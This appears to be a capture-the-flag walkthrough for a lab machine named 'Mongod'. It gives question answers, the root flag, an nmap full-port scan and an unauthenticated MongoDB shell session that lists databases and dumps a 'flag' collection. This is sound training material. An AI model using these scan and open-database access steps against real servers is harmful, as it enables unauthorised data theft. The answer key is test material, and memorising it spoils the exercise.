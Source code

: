 # Mongod

## Questions

##### How many TCP ports are open on the machine?

```
2
```

##### Which service is running on port 27017 of the remote host?

```
MongoDB 3.6.8
```

##### What type of database is MongoDB? (Choose: SQL or NoSQL)
 
```
NoSQL
```

##### What is the command name for the Mongo shell that is installed with the mongodb-clients package?

```
mongo
```

##### What is the command used for listing all the databases present on the MongoDB server? (No need to include a trailing ;)

```
show dbs
```

##### What is the command used for listing out the collections in a database? (No need to include a trailing ;)

```
show collections
```

##### What is the command used for dumping the content of all the documents within the collection named flag in a format that is easy to read?

```
db.flag.find().pretty()
```

##### Submit root flag

```
1b6e6fb359e7c40241b6d431427ba6ea
```

## Commands

### Scan

```
┌──(darshan㉿kali)-[~]
└─$ nmap -sV -p- 10.129.145.116 --min-rate 5000                                     
Starting Nmap 7.92 ( https://nmap.org ) at 2023-01-21 09:49 EST
Nmap scan report for 10.129.145.116
Host is up (0.12s latency).
Not shown: 65523 closed tcp ports (conn-refused)
PORT      STATE    SERVICE VERSION
22/tcp    open     ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
15297/tcp filtered unknown
18249/tcp filtered unknown
27017/tcp open     mongodb MongoDB 3.6.8
35313/tcp filtered unknown
39092/tcp filtered unknown
45369/tcp filtered unknown
49424/tcp filtered unknown
49545/tcp filtered unknown
50172/tcp filtered unknown
50609/tcp filtered unknown
53331/tcp filtered unknown
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 27.41 seconds

```

### MongoDB
```
┌──(darshan㉿kali)-[~]
└─$ sudo apt install mongodb
```

```
┌──(darshan㉿kali)-[~]
└─$ mongo mongodb://10.129.143.75:27017
MongoDB shell version v6.0.1
connecting to: mongodb://10.129.143.75:27017/?compressors=disabled&gssapiServiceName=mongodb
compressors=disabled&gssapiServiceName=mongodb
Implicit session: session { "id" : UUID("d732a698-b4ef-42d3-b3ae-d608e4802c33") }
MongoDB server version: 3.6.8
WARNING: shell and server versions do not match
================
Warning: the "mongo" shell has been superseded by "mongosh",
which delivers improved usability and compatibility.The "mongo" shell has been deprecated and will be removed in
an upcoming release.
For installation instructions, see
https://docs.mongodb.com/mongodb-shell/install/
================
Welcome to the MongoDB shell.
For interactive help, type "help".
For more comprehensive documentation, see
	https://docs.mongodb.com/
Questions? Try the MongoDB Developer Community Forums
	https://community.mongodb.com
---
The server generated these startup warnings when booting: 
2022-10-08T14:49:44.575+0000 I STORAGE  [initandlisten] 
2022-10-08T14:49:44.575+0000 I STORAGE  [initandlisten] ** WARNING: Using the XFS filesystem is strongly recommended with the WiredTiger storage engine
2022-10-08T14:49:44.575+0000 I STORAGE  [initandlisten] **          See http://dochub.mongodb.org/core/prodnotes-filesystem
2022-10-08T14:49:48.017+0000 I CONTROL  [initandlisten] 
2022-10-08T14:49:48.017+0000 I CONTROL  [initandlisten] ** WARNING: Access control is not enabled for the database.
2022-10-08T14:49:48.017+0000 I CONTROL  [initandlisten] **          Read and write access to data and configuration is unrestricted.
2022-10-08T14:49:48.017+0000 I CONTROL  [initandlisten] 
---

```

```
> show dbs
admin                  0.000GB
config                 0.000GB
local                  0.000GB
sensitive_information  0.000GB
users                  0.000GB

```


```
> use sensitive_information
switched to db sensitive_information
```

```
> show collections
flag
```

```
> db.flag.find().pretty()
{
        "_id" : ObjectId("630e3dbcb82540ebbd1748c5"),
        "flag" : "1b6e6fb359e7c40241b6d431427ba6ea"
}

```
